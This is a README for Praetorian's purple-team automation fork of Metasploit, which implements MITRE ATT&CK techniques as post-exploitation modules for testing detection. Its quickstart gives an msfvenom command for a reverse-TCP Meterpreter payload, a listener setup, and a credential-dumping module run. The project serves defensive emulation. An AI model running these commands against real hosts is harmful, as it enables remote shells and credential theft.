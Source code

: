 Metasploit [![Build Status](https://travis-ci.org/rapid7/metasploit-framework.svg?branch=master)](https://travis-ci.org/rapid7/metasploit-framework) [![Maintainability](https://api.codeclimate.com/v1/badges/943e398e619c09568f3f/maintainability)](https://codeclimate.com/github/rapid7/metasploit-framework/maintainability) [![Test Coverage](https://api.codeclimate.com/v1/badges/943e398e619c09568f3f/test_coverage)](https://codeclimate.com/github/rapid7/metasploit-framework/test_coverage) [![Docker Pulls](https://img.shields.io/docker/pulls/metasploitframework/metasploit-framework.svg)](https://hub.docker.com/r/metasploitframework/metasploit-framework/)
==
The Metasploit Framework is released under a BSD-style license. See
[COPYING](COPYING) for more details.

At Praetorian, we were seeking a way to automatically emulate adversary tactics in order to evaluate detection and response capabilities. Our solution implements MITRE ATT&CK&trade; TTPs as Metasploit Framework `post` modules. As of this release, we've automated a little over 100 TTPs as modules.

Metasploit's advantage is its robust library, capability to interact with operating system APIs, and its flexible license. In addition, we're able to emulate the features of other tools such as in-memory .NET execution via leveraging Metasploit's `execute_powershell` functionality. This allows Blue Teams to ensure that their tools are alerting on the actual TTP behavior and not execution artifacts (such as encoded PowerShell).

Our solution is built on top of the latest version of Metasploit as of 09Apr2019 (pulled from: https://github.com/rapid7/metasploit-framework). We’ve made minor modifications to Metasploit’s code base to enable some of the automation. Everything should work as intended if you’re already familiar with Metasploit. The magic happens after you establish a Meterpreter session and run a TTP as a post-exploitation module.

We're open sourcing our work because we believe in solving the cybersecurity problem. By giving Blue Teams more tools to emulate adversary behavior, we hope to improve their capabilities and reduce the still very high average dwell time.

## Wiki

For detailed opertional [usage guidance](https://github.com/praetorian-inc/purple-team-attack-automation/wiki/Operational-Setup-and-Usage) and a full [list of modules](https://github.com/praetorian-inc/purple-team-attack-automation/wiki/Available-Modules) and changes, please view the [GitHub Wiki](https://github.com/praetorian-inc/purple-team-attack-automation/wiki).

## Quickstart

Installation should follow the instructions for installing a Metasploit Docker environment:
https://github.com/rapid7/metasploit-framework/tree/master/docker

In general:
 * Install Docker
 * `git clone https://github.com/praetorian-inc/purple-team-attack-automation.git`
 * Edit `./docker-compose.local.override.yml` to reflect the LHOST of your local system similar to below. By default, port 4444 will be forwarded to the docker container. If you want to use other ports, for instance to mirror HTTPS, you'll have to add them to this file.

```
version: '3'
services:
  ms:
    environment:
      # example of setting LHOST
      LHOST: [Your system's IP address]
    # example of adding more ports
    ports:
      - 8080:8080
      - 443:443
```

 * Add / Remove further ports or IP addresses as you see fit. Don't forget to change the LHOST to your own IP address.
 * `docker-compose build`
 * Start the container with `./docker/bin/msfconsole`
 *	Generate a Meterpreter payload:
 ```
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Attacker IP Address> LPORT=4444 -f exe > meterpreter.exe
 ```
 *	Start and run a local listener: 
 ```
  use exploit/multi/handler
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST <Attacker IP Address>
  set LPORT 4444
  exploit -j -z
  ```
  Copy and run meterpreter.exe on the target (“victim”) host as admin and wait for a session.
*	Run a TTP as a post-exploitation module. The list of modules is provided below. For example, to start the 'Credential Dumping (T1003)’ module, run:  
```
use modules/post/windows/purple/t1003
info
set session 1
run
```

### Meterpreter Payloads

Praetorian recommends you utilize [the nightly installers](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers) in order to run msfvenom to create your payloads.

### Common Errors

```
ERROR: Couldn't connect to Docker daemon at http+docker://localunixsocket - is it running?
```

Solved by
```
service docker start
```

## Future Work

* Integrate the container into a fork of [DetectionLab](https://github.com/clong/DetectionLab)
* Compare execution of CALDERA and MSF and how artifacts differ so we can improve adversary emulation
* Leverage the [MSFRPCD](https://metasploit.help.rapid7.com/docs/running-metasploit-remotely) to facilitate automatic attack chaining

## Contact

If you're interested in our Purple Team services, [please reach out to us](https://www.praetorian.com/contact).

If you're an engineer looking to join our great team, we have openings at [our careers page](https://www.praetorian.com/company/careers).

## Contributing

See the [Contribution Guide](https://github.com/praetorian-inc/purple-team-attack-automation/blob/master/CONTRIBUTING.md) for a step-by-step guide to making a module.

Also, follow the [Metasploit Framework's general contributing guidelines](https://github.com/rapid7/metasploit-framework/blob/master/CONTRIBUTING.md).

## Acknowledgements

We'd like to thank various members of the security community for providing a lot of the techniques and code that we integrated into this project. 

* [MITRE ATT&CK&trade;](https://attack.mitre.org/) (Obviously)
* [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
* [@subtee](https://twitter.com/subTee)
* [LOLBAS Project](https://lolbas-project.github.io/)
* [CALDERA](https://github.com/mitre/caldera)

At Praetorian, the following engineers helped contribute modules:
* Josh Abraham `jabra [at] spl0it.org` and [@jabra](https://twitter.com/Jabra)
* Abraham Adberstein
* Tanner Harper
* Thomas Hendrickson [github.com/tomis007](https://www.github.com/tomis007)
* George Jouldjian 
* Dallas Kaman
* Blake Luther
* Matt Schneider
* Matthew Verrette
* Daniel Wyleczuk-Stern [@daniel_cybersec](https://twitter.com/Daniel_Cybersec)
